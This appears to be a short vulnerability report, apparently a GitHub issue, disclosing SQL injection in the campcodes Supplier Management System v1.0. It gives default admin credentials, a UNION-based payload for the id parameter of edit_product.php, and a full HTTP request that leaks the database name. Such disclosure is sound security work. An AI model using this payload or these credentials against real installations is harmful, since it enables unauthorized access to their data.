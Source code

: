 # Supplier Management System v1.0 has SQL injection

BUG_AUTHOR: lixiaoning

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/supplier-management-system-using-php-mysql/

Vulnerability File: /Supply_Management_System/admin/edit_product.php?id=

Vulnerability location: /Supply_Management_System/admin/edit_product.php, id

Current database name: sourcecodester_scm_new

[+] Payload: /Supply_Management_System/admin/edit_product.php?id=-1' union select 1,database(),3,4,5,6,7--+ // Leak place ---> id

```sql
GET /Supply_Management_System/admin/edit_product.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=eaps2u9ukno946luh75h1m2lak
Connection: close
```

![image](https://github.com/user-attachments/assets/d3c1f61e-ca37-4efa-ac17-460fe1d1c6ff)

